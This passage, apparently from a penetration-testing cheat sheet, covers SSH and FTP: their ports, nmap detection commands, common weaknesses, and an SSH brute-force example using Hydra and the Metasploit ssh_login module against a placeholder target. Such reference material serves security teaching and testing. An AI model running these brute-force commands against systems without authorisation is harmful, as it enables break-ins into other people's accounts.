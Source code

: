 ### 2. SSH (Secure Shell)

**Default Port:** TCP 22

**Purpose:**

- Cryptographic remote access protocol
- Secure replacement for Telnet
- Supports password and key-based authentication

**Common Attack Vectors:**

```bash
# Service detection
nmap -sV -p 22 <target_ip>

# Common vulnerabilities
- Weak credentials (brute force)
- SSH protocol vulnerabilities
- Private key exposure
- Configuration weaknesses
```

**Brute-Force Example:**

```bash
# Hydra SSH brute force
hydra -L users.txt -P passwords.txt ssh://<target_ip>

# Metasploit module
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <target_ip>
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```

### 3. FTP (File Transfer Protocol)

**Default Port:** TCP 21

**Purpose:**

- File sharing between server and clients
- Often paired with web servers for file uploads
- Supports anonymous and authenticated access

**Common Attack Vectors:**

```bash
# Service detection
nmap -sV -p 21 <target_ip>

# Common vulnerabilities
- Anonymous access with write permissions
- Weak credentials
- FTP bounce attacks
- Plain text credential transmission
```
